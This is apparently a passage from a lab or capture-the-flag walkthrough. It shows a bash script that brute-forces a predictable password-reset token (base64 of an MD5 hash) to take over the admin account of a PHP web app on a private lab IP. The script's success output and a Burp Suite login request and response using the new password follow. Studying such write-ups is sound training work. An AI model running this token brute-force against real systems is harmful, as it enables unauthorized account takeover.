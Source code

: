 `vim ./reset_admin_password.sh`:
```sh
#!/usr/bin/bash
username="admin"
new_password="password123"
echo "[*] Resetting $username password..."

for user_number in $(echo admin{1..100}); do
    token=$(echo -n $user_number | md5sum | awk '{print $1}'| tr -d '\n' | base64)
    curl -X GET "http://192.168.56.132/reset_pass.php?user=$username&token=$token&newpass=$new_password" -s | grep "Not valid token" &> /dev/null
    if [ $? -eq 1 ]; then
        echo "[+] Correct token is '$token'"    
        echo -n "[+] Password changed to '$new_password'"
        exit 0
    fi
done

echo -n "[-] Failed to reset password for $username."
exit 1
```

`chmod u+x ./reset_admin_password.sh`

`./reset_admin_password.sh`:
```
[*] Resetting admin password...
[+] Correct token is 'MTg0NDE1NmQ0MTY2ZDk0Mzg3ZjFhNGFkMDMxY2E1ZmE='
[+] Password changed to 'password123'
```

`burpsuite`

`HTTP Request`:
```http
POST /login.php HTTP/1.1 ←
Host: 192.168.56.132
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://192.168.56.132
Connection: close
Referer: http://192.168.56.132/login.php
Cookie: PHPSESSID=tdeksnkfvpldhhiojlqigdubb2
Upgrade-Insecure-Requests: 1

username=admin&password=password123 ←
```
`HTTP Response`:
```http
HTTP/1.1 200 OK ←
Date: Thu, 03 Oct 2024 10:00:59 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6622
Connection: close
Content-Type: text/html; charset=UTF-8


<html lang="es">

```